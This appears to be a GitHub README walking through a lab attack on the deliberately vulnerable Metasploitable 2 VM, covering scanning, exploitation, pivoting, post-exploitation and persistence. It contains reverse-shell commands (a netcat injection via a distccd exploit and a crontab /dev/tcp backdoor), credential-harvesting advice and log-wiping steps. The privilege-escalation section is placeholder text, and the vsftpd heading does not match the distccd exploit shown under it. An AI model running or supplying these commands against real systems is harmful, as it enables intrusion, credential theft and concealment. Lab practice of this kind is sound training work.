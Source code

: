 # Metasploitable 2

This document shows an hacking approach for Metasploitable 2, involving multiple phases such as reconnaissance, manual exploitation, privilege escalation, and post-exploitation.

## 1. Reconnaissance (Information Gathering)

### Active and Passive Scanning:

Use `nmap` to identify open ports, services, and OS details.

```
nmap -A -sV <target IP>
```

### Service Enumeration:

#### Port Scan Results

| Port     | State | Service     | Version                                             |
| -------- | ----- | ----------- | --------------------------------------------------- |
| 21/tcp   | open  | ftp         | vsftpd 2.3.4                                        |
| 22/tcp   | open  | ssh         | OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)        |
| 23/tcp   | open  | telnet      | Linux telnetd                                       |
| 25/tcp   | open  | smtp        | Postfix smtpd                                       |
| 53/tcp   | open  | domain      | ISC BIND 9.4.2                                      |
| 80/tcp   | open  | http        | Apache httpd 2.2.8 ((Ubuntu) DAV/2)                 |
| 111/tcp  | open  | rpcbind     | 2 (RPC #100000)                                     |
| 139/tcp  | open  | netbios-ssn | Samba smbd 3.X - 4.X (workgroup: WORKGROUP)         |
| 445/tcp  | open  | netbios-ssn | Samba smbd 3.X - 4.X (workgroup: WORKGROUP)         |
| 512/tcp  | open  | exec        | netkit-rsh rexecd                                   |
| 513/tcp  | open  | login       |                                                     |
| 514/tcp  | open  | shell       | Netkit rshd                                         |
| 1099/tcp | open  | java-rmi    | GNU Classpath grmiregistry                          |
| 1524/tcp | open  | bindshell   | Metasploitable root shell                           |
| 2049/tcp | open  | nfs         | 2-4 (RPC #100003)                                   |
| 2121/tcp | open  | ftp         | ProFTPD 1.3.1                                       |
| 3306/tcp | open  | mysql       | MySQL 5.0.51a-3ubuntu5                              |
| 3632/tcp | open  | distccd     | distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))    |
| 5432/tcp | open  | postgresql  | PostgreSQL DB 8.3.0 - 8.3.7                         |
| 5900/tcp | open  | vnc         | VNC (protocol 3.3)                                  |
| 6000/tcp | open  | X11         | (access denied)                                     |
| 6667/tcp | open  | irc         | UnrealIRCd (Admin email admin@Metasploitable.LAN)   |
| 6697/tcp | open  | irc         | UnrealIRCd (Admin email admin@Metasploitable.LAN)   |
| 8009/tcp | open  | ajp13       | Apache Jserv (Protocol v1.3)                        |
| 8180/tcp | open  | http        | Apache Tomcat/Coyote JSP engine 1.1                 |
| 8787/tcp | open  | drb         | Ruby DRb RMI (Ruby 1.8; path /usr/lib/ruby/1.8/drb) |

#### Service Info:

- **Host**: metasploitable.localdomain
- **OSs**: Unix, Linux

## 2. Vulnerability Assessment

For an exploit we used different sources in the internet.

For this example I attached the exploit in the exploit directory.

Normally you can search through the hacking db or similar like

- https://www.exploit-db.com/
- https://www.exploit-db.com/google-hacking-database/

## 3. Exploitation (Manual and Customized)

### vsftpd 2.3.4 Backdoor:

As a listener we use NetCat

nc -vnlp 4444

As the listener is active we execute the exploit and open the reverse shell.

Now we got 2 ways to exploit the Vulnerability, either with a python exploit or with a metasploit exploit.
Both exploits are downloadable in the exploits folder in this repository

```
python2 distccd.py -t 192.168.56.101 -c "nc 192.168.56.1 4444 -e /bin/sh"
```

now where we opened the listener we can send shell commands. with this command we change the shell to a bash shell

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

## 4. Privilege Escalation

Once a low-privilege shell is obtained, we escalate privileges.

we do
this
and
this
and
this

### SSH Pivoting Example:

```

ssh -L <local_port>:<target_IP>:<target_service_port> <user>@<compromised_host>

```

## 6. Post-Exploitation

### Dump Passwords:

Use tools like `hashdump` or `mimikatz` to retrieve stored passwords or hashes.

### Gather Sensitive Data:

Retrieve SSH keys, database files, and system credentials.

## 7. Covering Tracks

Securely delete sensitive files and logs to remove traces of the attack.

### Clear Logs:

- `/var/log/auth.log`
- `.bash_history`

Use `shred` or `dd` to securely delete files.

## 8. Persistence

To maintain access, plant a backdoor or create a new account.

### Add a Cron Job for Backdoor:

```

echo "_/5 _ \* \* \* /bin/bash -i >& /dev/tcp/<attacker IP>/4444 0>&1" >> /etc/crontab

```

## Conclusion

This methodology goes beyond simple Metasploit usage by manually exploiting vulnerabilities, escalating privileges, pivoting through networks, and ensuring persistence and stealth. Follow these steps to simulate a more complex attack on Metasploitable 2.

```

```
